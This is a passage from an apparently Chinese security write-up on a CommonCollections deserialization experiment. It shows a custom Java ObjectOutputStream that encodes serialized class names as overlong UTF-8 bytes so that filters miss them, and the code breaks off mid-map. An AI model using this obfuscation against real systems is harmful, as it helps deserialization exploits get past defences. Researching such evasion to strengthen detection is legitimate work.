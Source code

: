 反序列化成功

# CommonCollections实验

1ue师傅重写了一个ObjectOutputStream来用于混淆序列化类名

```
package com.test;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;

public class CustomObjectOutputStream extends ObjectOutputStream {

    private static HashMap<Character, int[]> map;

    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
        map.put('a', new int[]{0xc1, 0xa1});
        map.put('b', new int[]{0xc1, 0xa2});
        map.put('c', new int[]{0xc1, 0xa3});
        map.put('d', new int[]{0xc1, 0xa4});
        map.put('e', new int[]{0xc1, 0xa5});
        map.put('f', new int[]{0xc1, 0xa6});
        map.put('g', new int[]{0xc1, 0xa7});
        map.put('h', new int[]{0xc1, 0xa8});
        map.put('i', new int[]{0xc1, 0xa9});
        map.put('j', new int[]{0xc1, 0xaa});
        map.put('k', new int[]{0xc1, 0xab});
        map.put('l', new int[]{0xc1, 0xac});
        map.put('m', new int[]{0xc1, 0xad});
        map.put('n', new int[]{0xc1, 0xae});
        map.put('o', new int[]{0xc1, 0xaf}); // 0x6f    2byte数据为0xc1 0xaf 即11000001 10101111
        map.put('p', new int[]{0xc1, 0xb0});
        map.put('q', new int[]{0xc1, 0xb1});
        map.put('r', new int[]{0xc1, 0xb2});
        map.put('s', new int[]{0xc1, 0xb3});
        map.put('t', new int[]{0xc1, 0xb4});
        map.put('u', new int[]{0xc1, 0xb5});
        map.put('v', new int[]{0xc1, 0xb6});
        map.put('w', new int[]{0xc1, 0xb7});
        map.put('x', new int[]{0xc1, 0xb8});
        map.put('y', new int[]{0xc1, 0xb9});
        map.put('z', new int[]{0xc1, 0xba});
        map.put('A', new int[]{0xc1, 0x81});
        map.put('B', new int[]{0xc1, 0x82});
        map.put('C', new int[]{0xc1, 0x83});
        map.put('D', new int[]{0xc1, 0x84});
        map.put('E', new int[]{0xc1, 0x85});
        map.put('F', new int[]{0xc1, 0x86});
        map.put('G', new int[]{0xc1, 0x87});
        map.put('H', new int[]{0xc1, 0x88});
        map.put('I', new int[]{0xc1, 0x89});
        map.put('J', new int[]{0xc1, 0x8a});
        map.put('K', new int[]{0xc1, 0x8b});
```